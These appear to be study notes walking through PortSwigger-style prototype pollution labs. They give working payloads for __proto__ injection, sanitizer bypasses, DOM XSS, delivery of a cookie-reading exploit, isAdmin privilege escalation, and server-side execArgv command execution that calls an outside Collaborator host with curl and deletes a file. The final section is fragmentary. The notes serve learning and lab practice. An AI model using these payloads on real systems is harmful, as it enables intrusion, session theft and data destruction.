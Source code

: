 # Prototype Pollution

Prototype pollution is a JavaScript security bug where an attacker injects or changes properties on Object.prototype (the base object every normal object inherits from). Because most objects inherit from that prototype, changing it can silently change app behavior and lead to serious issues — often remote code execution, data tampering, or DOM XSS in browsers.



## How it works (simple steps)
- JavaScript objects inherit from Object.prototype.
	- Example: {} → inherits properties from Object.prototype.
- If an attacker can control a property name like __proto__ or constructor.prototype through user input (query strings, JSON, form fields), they can change that prototype.
- After pollution, any object that checks or uses the polluted property will see the attacker-controlled value.

Example payloads:
- Query-string style: /?__proto__[isAdmin]=true
- JSON-like (if an app naively merges user JSON into config): ``` {"__proto__":{"role":"admin"}} ```
```js
// before
Object.prototype.marker // undefined

// attacker injects ?__proto__[marker]=owned
Object.prototype.marker // "owned"
({}).marker             // "owned"  <-- every object now has marker

```

## Lab: Client-side prototype pollution via browser APIs

- Goal: Exploit client-side prototype pollution to trigger a DOM XSS (script.src) sink.

Manual approach

- Find pollution source: Inject into query string 
	- 	/?__proto__[foo]=bar and verify Object.prototype.foo appears in the browser console.
- Identify gadget: Inspect site scripts (Sources). 
	-	In searchLoggerConfigurable.js a transport_url is dynamically appended as a <script> but was made non-writable/unconfigurable with Object.defineProperty() without defining a value property — this creates a gadget that reads value.
- Exploit: Pollute prototype so the gadget picks up a value property: 
	-	/?__proto__[value]=data:,alert(1); — the page renders <script src="data:,alert(1);"> and alert(1) runs, solving the lab.

DOM Invader (Burp) approach

	- Load lab in Burp browser, enable DOM Invader with prototype-pollution option.
	- Reload; DOM Invader finds prototype-pollution vectors in the query string.
	- Click Scan for gadgets → DOM Invader locates the value gadget and the script.src sink.
	- Click Exploit → DOM Invader auto-generates the POC and triggers alert(1).
Key takeaway: Prototype pollution via __proto__ can inject properties that interact with existing DOM-creating gadgets (e.g., script insertion) to achieve DOM XSS.


---


## Lab:  DOM XSS via client-side prototype pollution

Goal: Use prototype pollution to control a script src and trigger DOM XSS.

Manual steps (quick):

-	Find pollution vector: Inject into query string:
	-	/?__proto__[foo]=bar → confirm Object.prototype.foo === "bar" in DevTools Console.
-	Identify gadget: Inspect site scripts (Sources). 
	-	searchLogger.js will append a <script> if config.transport_url exists — a potential gadget if that property is read later.
-	Exploit: Pollute the prototype with transport_url:
	-	/?__proto__[transport_url]=data:,alert(1);
	Check Elements — a <script src="data:,alert(1);"> appears and alert(1) runs. Lab solved.

Automated (Burp DOM Invader):

	- Load lab in Burp browser → enable DOM Invader + prototype-pollution.
	- Reload: it finds pollution vectors in the query string.
	- Click Scan for gadgets → it finds the transport_url gadget and the script.src sink.
	- Click Exploit → DOM Invader generates a POC and triggers alert(1).

Key takeaway: Polluting __proto__ can inject properties (like transport_url) that existing client-side code uses to create DOM elements (e.g., script tags), enabling DOM XSS.

---

## Lab: DOM XSS via an alternative prototype pollution vector

Goal: Exploit prototype pollution to inject malicious JavaScript into an eval() sink.

Manual solution

- Find prototype pollution source:

	- Test /?__proto__[foo]=bar → no effect.

	- Try /?__proto__.foo=bar → success (Object.prototype.foo now equals "bar").

- Identify gadget:

	- In searchLoggerAlternative.js, an eval() sink uses manager.sequence, which isn’t defined — potential gadget.

- Craft exploit:

	- Inject payload:
		- /?__proto__.sequence=alert(1)
		- → error occurs, showing alert(1)1 (extra “1” breaks syntax).

	- Fix syntax by appending a minus:
		- /?__proto__.sequence=alert(1)-
		- → valid JS, triggers alert(1) and solves the lab.

DOM Invader solution

	- Enable prototype pollution option and reload page.
	- DOM Invader detects pollution vector in query string.
	- Scan for gadgets → finds eval() sink via sequence property.
	- Generated PoC fails initially due to the trailing 1 in payload.
	- Manually append - to the payload in URL → alert(1) executes successfully.



Key takeaway:
	- By polluting Object.prototype with a property used by an eval() sink, you can inject and execute JavaScript (DOM XSS). Sometimes, syntax adjustments (like adding -) are needed to fix malformed payloads.

---

## Lab: Client-side prototype pollution via flawed sanitization

Goal: Bypass the app’s key-sanitization to pollute Object.prototype, then control a script.src gadget to trigger DOM XSS.

How the bypass works :

- Simple __proto__ or constructor.prototype attempts are blocked by the site’s sanitizeKey() blocklist, so /?__proto__.foo=bar and similar fail.

- The filter isn’t recursive and can be bypassed by obfuscating the blocked key so the sanitizer misses it but the parser still interprets it. Example bypass forms used:

	- /?__pro__proto__to__[foo]=bar
	- /?__pro__proto__to__.foo=bar
	- /?constconstructorructor[protoprototypetype][foo]=bar
	- /?constconstructorructor.protoprototypetype.foo=bar

- After injecting one of those, Object.prototype.foo === "bar" — prototype pollution achieved.

Finding the gadget:

- Inspect site JS. searchLogger.js dynamically appends a <script> using config.transport_url if present.

- config.transport_url is not normally defined — a perfect gadget if you can supply it through the polluted prototype.

Exploit (POC):

- Pollute the prototype with transport_url:
	- /?__pro__proto__to__[transport_url]=data:,alert(1);

- The page renders <script src="data:,alert(1);"> and alert(1) executes → lab solved.

Key takeaway: Even when direct __proto__ keys are blocked, non-recursive sanitizers can be bypassed by tricking the parser with obfuscated key names. If client-side code later reads a property (e.g., transport_url) to build DOM (script.src), that polluted property can be used to trigger DOM XSS.


---

## Lab: Client-side prototype pollution in third-party libraries

Goal: Use prototype pollution delivered in the URL fragment (#...) to control a setTimeout() sink (hitCallback) and execute code (steal cookie).


- Load the lab in Burp’s built-in browser.
- Enable DOM Invader and turn on the prototype pollution option.
- Open DevTools → DOM Invader tab and reload the page. DOM Invader finds two pollution vectors in the URL hash (fragment).
- Click Scan for gadgets → wait for the gadget scan. It finds a hitCallback gadget that reaches a setTimeout() sink.
- Click Exploit → DOM Invader auto-generates a POC and runs alert(1) (proof the sink is exploitable).
- Disable DOM Invader.
- On the lab’s exploit server, create an HTML payload that navigates victims to a malicious URL containing the polluted hash. Example body:

```html
<script>
  location="https://YOUR-LAB-ID.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>

```
- Test the exploit yourself (confirm navigation and that alert(document.cookie) runs).
- Deliver the exploit to a victim to solve the lab.

Key takeaway: Prototype pollution delivered via the URL fragment can be discovered and weaponized with DOM Invader. If a gadget (here hitCallback) feeds attacker-controlled properties into DOM timers (setTimeout), you can execute arbitrary JS (e.g., alert(document.cookie)) by getting the victim to visit a crafted URL.

---

## Lab: Privilege escalation via server-side prototype pollution

Goal: Pollute server-side object prototype via a JSON request to become an admin and delete the carlos user


- Inspect address update: Log in, submit the account address form. In Burp HTTP history find the POST /my-account/change-address request — the form data is sent as JSON and the server responds with a JSON user object.

- Prototype pollution test: Send the request to Repeater and add:
	```json
	"__proto__": { "foo": "bar" }

	```
	- Send it — the response user object now shows foo: "bar" (but no __proto__), indicating prototype pollution (inherited property).

- Find gadget: The response has isAdmin: false — this property is read by the app to show admin links.

- Exploit: Modify JSON to:
	```json
	"__proto__": { "isAdmin": true }

	```
Key takeaway: Untrusted JSON merged into server-side objects can pollute Object.prototype. If the app relies on properties like isAdmin from user objects, prototype pollution lets an attacker escalate privileges.

---

## Lab: Detecting server-side prototype pollution without polluted property reflection

- Log into the account page and submit the change-address form while capturing the POST /my-account/change-address in Burp Proxy.

- Send the request to Burp Repeater and note the server exchanges JSON representing the user.

- Add an injected : 
	```__proto__ property (e.g. {"__proto":{"foo":"bar"}}) ``` and resend — response may not immediately show the injected field.

- Intentionally break the JSON to get an error response (500) whose error object contains a status: 400.

- Restore valid JSON, change the injected __proto__ to include a custom status (must be between 400–599), e.g. ``` {"__proto":{"status":555}},``` and resend — get normal user response.

- Break the JSON again; this time the error object’s status/statusCode reflect the injected value from Object.prototype, confirming prototype pollution and solving the lab.

One-line takeaway: use __proto__ injection plus triggering an error path to prove Object.prototype was polluted (observed via modified error status).

---



##

Log in, update your address, and capture the POST /my-account/change-address request in Burp.

Send it to Repeater and test prototype pollution by injecting:
```
`


Visit the admin panel and note that running maintenance jobs likely spawns Node.js child processes.

Exploit this by injecting:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"]
}

```

Finally, replace the payload with:
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]
}

```